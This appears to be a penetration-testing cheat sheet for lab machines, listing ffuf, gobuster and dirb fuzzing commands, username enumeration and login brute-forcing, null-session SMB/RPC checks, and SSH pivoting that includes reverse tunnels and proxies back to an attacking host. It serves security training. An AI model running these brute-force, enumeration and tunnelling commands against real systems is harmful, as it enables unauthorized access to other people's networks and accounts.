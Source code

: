 # CONTENT DISCOVERY :

## DIRECTORIES
### Brute Forcing using ffuf, dirbuster, and gobuster
`ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://MACHINE_IP/FUZZ`
Here, *FUZZ* is replaced by the directory name from the wordlist.

`dirb http://MACHINE_IP/ /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt`

`gobuster dir --url http://MACHINE_IP/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt`

## SUBDOMAINS:
### Using OSINT:
[Gather CT(Certificate Transparency) logs](https://crt.sh/)

### Using ffuf:
`ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://MACHINE_IP`

Above command will always produce a valid result, hence the output needs to be filtered.
 Edit the below command replacing {size} with the most occurring size value from the previous result
 `ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://MACHINE_IP -fs {size}`

# AUTHENTICATION BYPASS
### USERNAME ENUMERATION:
`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"`

`-H` : Specified headers for the request 
`-mr`:  Text on the page we are looking for to validate we've found a valid username

### BRUTE FORCE LOGIN
`ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200`

`-fc` : To check for an HTTP status code other than 200.

`ffuf -w /usr/share/wordlists/Seclists/usernames_common.txt -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded"`

# BASIC ENUMERATION

`curl --head <IP>` : Grab website header; potential verion information.
`nikto -host <IP>` : Potential Vulnerability list.
`rpcclient -U "" <IP>` : RPC Null session.
`smbclient -L \\\\<IP>` : Try connecting to possible shares.
> If meterpreter shell breaks, consider changing the shell.

# SSH:
## PORT FORWARDING

> `ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN`

Let's say you have SSH access to `172.16.0.5` The above command creates a forward SSH tunnel (_80 on the target server, and port 8000 on our own machine_), giving access to a webserver running on `172.16.0.10`.
We could then access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 _on our own_ _attacking machine_.
`-f` Backgounds the Shell
`-N` Tells SSH that it doesn't need to execute any commands

## REVERSE CONNECTIONS

This is preferable if you have a shell on the compromised server, but not SSH access.

> Generate ssh keys using `ssh-keygen`.
> 1. Copy the contents of the public key (the file ending with `.pub`), then edit the `~/.ssh/authorized_keys` file on your own attacking machine. You may need to create the `~/.ssh` directory and `authorized_keys` file first.
> 2. On a new line, type the following line, then paste in the public key:  
        `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty`  
        This makes sure that the key can only be used for port forwarding, disallowing the ability to gain a shell on your attacking machine.
> 3. Check if the SSH server on your attacking machine is running:  
        `sudo systemctl status ssh`. If not, start the service: `sudo systemctl start ssh`.
> 4. Finally, transfer the private key to the target box.
> 5. Connect back to the attacking machine:
>    `ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN`


## PROXIES

The following command will open up port 1337 on the attacking box as a proxy to send data through into the protected network.
> `ssh -D 1337 USERNAME@ATTACKING_IP -fN`

Some newer versions of SSH allow reverse proxies. The following command can be used to create a reverse proxy in clients which do support it:
> `ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`
